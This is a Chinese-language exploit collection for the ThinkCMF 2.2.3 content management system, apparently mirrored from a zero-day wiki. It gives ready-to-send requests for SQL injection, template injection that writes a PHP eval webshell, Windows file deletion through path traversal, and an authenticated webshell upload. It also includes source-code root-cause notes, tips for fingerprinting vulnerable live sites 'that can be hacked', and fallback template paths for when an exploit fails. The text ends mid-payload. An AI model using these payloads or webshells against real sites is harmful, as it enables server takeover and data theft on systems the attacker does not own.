# ThinkCMF 2.2.3 漏洞合集

> 原文：[http://book.iwonder.run/0day/ThinkCMF/THINKCMFX_2.2.3 漏洞合集.html](http://book.iwonder.run/0day/ThinkCMF/THINKCMFX_2.2.3 漏洞合集.html)

## 一、漏洞简介

## 二、漏洞影响

ThinkCMF 2.x

## 三、复现过程

### 0x01 前台用户文章编辑提交存在注入

#### 0x01.1 漏洞演示

```
前台的文章编辑中操作框架注入，所以可以直接 sql 注入
url:http://thinkcmf.test/index.php?g=Portal&m=Article&a=edit_post
post:
term:123
post[post_title]:123
post[post_title]:aaa
post_title:123
post[id][0]:bind
post[id][1]:0 and (updatexml(1,concat(0x7e,(select user()),0x7e),1)) 
```



#### 0x01.2 漏洞原理

文件：ThinkCMFX_2.2.3\application\Portal\Controller\ArticleController.class.php 方法：public function edit_post(



这里不多讲，因为没得意义。详情请看先知的历史 tp 漏洞，谢谢：)

#### 0x02 前台模版注入漏洞-可 getshell 两处

##### 0x02.1 Comment 类模版引擎注入演示

```
url:http://thinkcmf.test/index.php?g=Comment&m=Widget&a=fetch
post:
templateFile=/../public/index
prefix=''
content=<php>file_put_contents('test.php','<?php eval($_REQUEST[11]);')</php> 
```

发送之后页面 http 状态会为 200，这样就表示成功了 简单讲解一下：content 我输入了 php 代码所以他会在本地跟路径创建一个一句话木马 test.php 所以实战过程中。

连接马子：[http://xxxxx.com/test.php](http://xxxxx.com/test.php) 密码:11 即可 getshell





#### 0x02.2 Api 类模版注入 1

```
url:http://thinkcmf.test/index.php?g=Api&m=Plugin&a=fetch
post:
templateFile=/../../../public/index
prefix=''
content=<php>file_put_contents('test1.php','<?php eval($_REQUEST[11]);')</php> 
```

同上一样，会在跟目录生成 马子 test1.php

#### 0x02.3 漏洞原理

路径:ThinkCMFX\application\Comment\Controller\WidgetController.class.php 路径:ThinkCMFX\application\Api\Controller\PluginController.class.php

两处的漏洞原理都是一样的，所以我就选一处进行讲解了 路径:application\Comment\Controller\WidgetController.class.php 方法：public function fetch()


从名字查看我们会发现他的 3 个参数

$templateFile=模版地址 $content=内容 $prefix=前缀

$templateFile 就是我们要包含的文件了，我们必须包含一个不然，代码会报错，导致无法写 shell $content 我们写马子的地方 $prefix 忽略他即可，没有用的

在代码中我们看到一个 $templateFile 给 parseTemplate 函数包含了，这里我们也不用管他，因为他的作用就是判断一下文件是否存在而已，所以我们在实战的时候，可以找到一处 html 文件包含即可

而 tp 的模版引擎 使用的是 smarty 而 smarty 中只要可控制内容的 key 与 value 即可写入 shell 命令，所以同理可得，tp 的 $content 我们可控 = 有模版注入

#### 0x03 任意文件删除-只能 windows 删除

##### 0x03.1 漏洞演示



```
url：http://thinkcmf.test/index.php?g=User&m=Profile&a=do_avatar
post:
mgurl=..\..\..\..\..\1.txt 
```


#### 0x03.2 漏洞原理

路径：ThinkCMFX\application\User\Controller\ProfileController.class.php 方法：blic function do_avatar(


从文件可以看到 $imgurl=str_replace('/','',$imgurl); 过滤了 / 但是没有过滤 所以我们无法引入 / 并且在更新头像以后还会从前端接收参数 imgurl 带入函数 sp_delete_avatar 跟进去

路径：ThinkCMFX\application\Common\Common\function.php 方法：function sp_delete_avatar(


#### 0x04 前台任意上传漏洞

##### 0x04.1 漏洞演示

记得一定要登录! 记得一定要登录! 记得一定要登录! 记得在前台注册一个账号进行登录或是直接登录后台然后在访问此地址

```
打开 url: http://atest.test/cms/ThinkCMFX_2.2.3/index.php?g=Asset&m=Ueditor&a=upload&action=uploadfile
POST:
file = php 一句话木马的文件

1.php
<?php
eval($_REQUEST[1]); 
?> 
```


```
shell 地址: http://atest.test/cms/ThinkCMFX_2.2.3/data/upload/ueditor/20190724/5d3833dcce7e3.php?1=phpinfo(); 
```


##### 0x04.2 为什么要登录

路径：ThinkCMFX\application\Asset\Controller\UeditorController.class.php 方法：public function _initialize()


##### 0x04.3 漏洞原理

路径：ThinkCMFX\application\Asset\Controller\UeditorController.class.php 方法：public function upload(



路径：ThinkCMFX\application\Asset\Controller\UeditorController.class.php 方法：private function _ueditor_upload



该方法使用 $upload_setting=sp_get_upload_setting(); 先获取所有上传的配置

在用 $allowed_exts=explode(',', $upload_setting[$filetype]); 来获取允许上传的后缀

这里我们先跟进去查看 sp_get_upload_setting(); 函数 路径：application\Common\Common\function.php 方法：function sp_get_upload_setting()



接下来我们需要重点查看一下：$upload_setting[$filetype] 我们可以打印一下,看看他的返回值 路径: application\Asset\Controller\UeditorController.class.php 方法: private function _ueditor_upload( 代码: $upload_setting[$filetype]


然后我们在看看他的代码 $allowed_exts=explode(',', $upload_setting[$filetype]); 路径: application\Asset\Controller\UeditorController.class.php 方法: private function _ueditor_upload( 代码: $allowed_exts=explode(',', $upload_setting[$filetype]); $upload_setting[$filetype] 执行以后返回的结果是数组并且为 2:

```
array(2) {
  ["upload_max_filesize"]=>
  string(5) "10240"
  ["extensions"]=>
  string(42) "txt,pdf,doc,docx,xls,xlsx,ppt,pptx,zip,rar"
} 
```

而这里用了 php 函数: explode 让我们看看这个函数的作用


把字符串转成数组,可是他返回的就是数组所以 $allowed_exts=explode(',', $upload_setting[$filetype]); 执行返回空 让我们测试一下看看

路径: application\Asset\Controller\UeditorController.class.php 方法: private function _ueditor_upload()


跟进去 tp 的上传方法查看一下 路径：ThinkCMFX_2.2.3\simplewind\Core\Library\Think\Upload.class.php 方法：public function upload()



路径：ThinkCMFX_2.2.3\simplewind\Core\Library\Think\Upload.class.php 方法：private function check()



路径：ThinkCMFX_2.2.3\simplewind\Core\Library\Think\Upload.class.php 方法：private function checkExt()



因为这里返回了 true 所以实际上他并没有验证后缀 所以我们也就多了一个任意文件上传漏洞

#### 0x05 使用说明

前面说了，thinkcmf 并没有死，并且有 3 版本与 5 版本这里提供一些方法，帮助你们辨别哪一些是可以日的，那一些事不行的。

##### 1，看 logo 3 的 logo 是黄色的例如下图


##### 2，在网站 url 后面输入 admin



如果页面是蓝色的表示是 3 的，可日穿之

##### 3，查看 README.md

在网站 url 后面输入 README.md



另外还有一个说明，你在实际操作的过程中，可能会遇到他一直报这个错

```
url:http://thinkcmf.test/index.php?g=Comment&m=Widget&a=fetch
post:
templateFile=/../public/index
prefix=''
content=<php>file_put_contents('test.php','<?php eval($_REQUEST[11]);')</php> 
```



请放心这并不是说明漏洞不可使用，而是说，这个模版不存在，你可以换一个 html 即可

```
例如：
/../public/index
/../public/exception
/../data/index
/../data/runtime/index
/../plugins/Mobileverify/View/admin_index
/../plugins/Mobileverify/View/index
/../plugins/Mobileverify/View/widget
/../plugins/Demo/View/admin_index
/../plugins/Demo/View/index
/../plugins/Demo/View/widget
/../application/Install/View/Public/footer
/../application/Install/View/Public/head
/../application/Install/View/Public/header
/../application/Common/index
/../application/Portal/Lang/en-us/index
/../application/Api/Lang/en-us/index
/../application/Api/Lang/zh-cn/index
/../application/Comment/Lang/en-us/index
/../application/Comment/Lang/zh-cn/index 
```

```
url:http://thinkcmf.test/index.php?g=Api&m=Plugin&a=fetch
post:
templateFile=/../../../public/index
prefix=''
